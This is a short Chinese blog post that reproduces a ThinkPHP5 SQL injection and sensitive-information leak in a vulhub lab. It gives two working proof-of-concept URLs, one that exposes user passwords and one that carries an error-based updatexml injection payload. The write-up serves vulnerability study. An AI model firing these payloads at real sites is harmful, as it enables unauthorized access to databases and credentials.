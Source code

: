 ```yaml
---
title: ThinkPHP5 SQL注入漏洞 && 敏感信息泄露
date: 2020-06-14 14:03:28
categories: 漏洞复现
tags: ThinkPHP
---
```


#### 复现过程

1.访问如下POC，可看到用户密码

```
http://your-ip/index.php?ids[]=1&ids[]=2
```

<!--more-->

![](http://qn.laohuan.xin/2020-06-14_14-07-36.png)

2.DEBUG页面泄露敏感信息

```
http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1
```

![](http://qn.laohuan.xin/2020-06-14_14-08-36.png)

#### 参考链接

<http://github.com/vulhub/vulhub/blob/master/thinkphp/in-sqlinjection/README.zh-cn.md/>